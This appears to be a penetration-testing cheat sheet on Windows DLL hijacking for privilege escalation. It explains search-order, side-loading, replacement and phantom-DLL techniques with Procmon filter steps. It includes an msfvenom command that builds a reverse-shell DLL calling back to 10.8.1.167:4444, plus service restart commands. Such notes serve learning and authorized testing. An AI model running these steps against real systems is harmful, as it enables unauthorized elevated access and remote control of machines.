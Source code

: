 ##### Explanation
Windows programs use DLL library files to work, and to use certain functions. There are checks for DLL files in a certain order:

##### Requirements
A program run as another user

### DLL redirection
Edit the %PATH% to include the malicious `.dll` first.

### DLL Side-loading (WinSxS replacement)
Replace the legitimate `.dll`  with the malicious one, on the WinSxS end (think replacing python imports on the system-end)

### DLL replacement
Check for writability of DLL files called by a program run as another user.
If there is writability, replace the DLL

### DLL Search order hijacking
If the absolute path is not specified, `.dll` files are searched for in this order:

##### DLL safe search enabled (default)
The directory from which the application is loaded (`.exe` location)
The system directory: `C:\Windows\System32\ // To make sure, try "GetSystemDirectory"`
The 16-bit system directory: `C:\Windows\System\`
The windows directory: `C:\Windows\ // To make sure, try "GetWindowsDirectory"`
The current directory (from which the command is run)
PATH

##### DLL safe search disabled (suspicious)
The directory from which the application is loaded (`.exe` location)
The current directory (from which the command is run)
The system directory: `C:\\Windows\\System32\\ // To make sure, try "GetSystemDirectory"`
The 16-bit system directory: `C:\\Windows\\System\\`
The windows directory: `C:\\Windows\\ // To make sure, try "GetWindowsDirectory"`
PATH

### Phantom DLL Hijacking with Procmon
Using RDP, open Procomon and select "Filter".

In the left-side dropdown, select "Process name".
Make sure the second dropdown equals "is".
Write the executable name (example: `dllservice.exe`) in the text field.
Add the rule, and apply:
```
process name is SERIVCE_NAME then include
```

Add another rule:
In the left-side dropdown, select "Result".
In the middle dropdown, select "is".
In the input box, type "NAME NOT FOUND".
Add and apply the rule:
```
result is NAME NOT FOUND then include
```

Run/start the program/service, check back in Procmon.
Look for the attempted calls to `.dll` libraries.
If one of the attemted call locations is writable, place a reverse shell.

Generate the DLL:
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.8.1.167 LPORT=4444 -f dll -o msf.dll
```
OR
```
x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll
```
Note: sometimes, you'll have to make the DLL export certain functions (think python libraries), research [online](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking).

Place the `.dll` in the writable folder, and restart the application:
```
sc.exe stop SERVICE_NAME
sc.exe start SERVICE_NAME
```